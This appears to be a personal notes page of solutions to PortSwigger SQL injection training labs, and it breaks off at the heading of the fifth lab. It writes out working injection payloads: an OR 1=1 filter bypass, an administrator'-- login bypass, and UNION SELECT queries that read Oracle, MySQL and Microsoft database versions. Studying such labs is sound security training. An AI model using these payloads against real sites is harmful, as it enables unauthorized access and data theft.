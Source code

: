 https://portswigger.net/web-security/sql-injection 
https://portswigger.net/web-security/sql-injection/cheat-sheet

## Labs:
## 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL injection attack that causes the application to display one or more unreleased products.

	SELECT * FROM products WHERE category = ' OR 1=1--

```
	.../filter?category= ' OR 1=1--
```

## 2. SQL injection vulnerability allowing login bypass

SQL injection attack that logs in to the application as the `administrator` user.

```
.../my-account?id=administrator'--
```

## 3. SQL injection querying the database type and version on Oracle

 Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
 ```
 .../filter?category=Accessories'UNION SELECT'a','b' FROM dual--
```

 Display the database version:
```
 .../filter?category=Accessories'UNION SELECT 'a', banner FROM v$version--
```

## 4. SQL injection attack, querying the database type and version on MySQL and Microsoft

Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:

In Microsoft database we can payload without to specify FROM table, instead we can comment with "#" right after selected columns:
 ```
 .../filter?category=Accessories'UNION SELECT'a','b'#
```

 Display the database version:
```
 .../filter?category=Accessories'UNION SELECT 'a', @@version#
 ```

## 5.SQL injection attack, listing the database contents on non-Oracle databases

